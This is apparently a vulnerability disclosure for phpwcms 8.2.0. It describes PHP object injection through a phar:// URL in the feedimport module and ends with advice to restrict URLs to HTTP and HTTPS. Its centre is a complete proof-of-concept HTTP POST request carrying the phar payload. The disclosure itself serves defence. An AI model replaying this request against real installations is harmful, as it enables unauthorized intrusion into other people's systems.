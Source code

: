 # `phar` deserialization vulnerability `feedimport` function

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the feedimport module through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cnt_text' parameter in the feedimport module, which triggers PHP's deserialization mechanism. This vulnerability allows attackers to inject PHP Objects through a PHAR file using a directory traversal attack pattern (../../). No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.
![alt text](../dists/phpwcms.png)

```text
POST /phpwcms.php?csrftoken=11172a0bf9955932b9f064e5215c098f&do=modules&module=feedimport&edit=0 HTTP/1.1
Host: dem0.com
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dem0.com/phpwcms.php?do=modules&module=feedimport&edit=0&csrftoken=11172a0bf9955932b9f064e5215c098f&PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk; phpwcmsBELang=en
Origin: http://dem0.com
Content-Length: 617

csrf_token_name=csrf682596161e0424.63421746&csrf_token_value=52c8bb1a370199c1ec7a45006e8c78ffa76c3ac9402ba651468347846a372c4f9475a8d316adbed661297207438779390450b4d14523bbd434bcb954c23f24a0&id=0&cnt_name=rss&cnt_text=phar%3A%2F%2F..%2F..%2Fexp.phar&cnt_object-structure_level_id=-2&cnt_object-article_template_detail=default&cnt_object-article_template_list=default&cnt_object-image_folder_id=0&cnt_object-image_url_replace=a&cnt_object-feed_cache_timeout=14400&cnt_object-author_id=1&cnt_object-author_name=Webmaster&cnt_object-source_link_text=a&cnt_object-import_status_email=a&cnt_status=1&submit=create&cnt_prio=
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to ensure that the URLs passed to createFileFromUrl are valid and only allow the `HTTP` or `HTTPS` protocols. Malicious attackers may attempt to pass URLs using other protocols, such as `phar://`, which could trigger the deserialization vulnerability. Proper validation and filtering of URLs are critical for mitigating this risk.

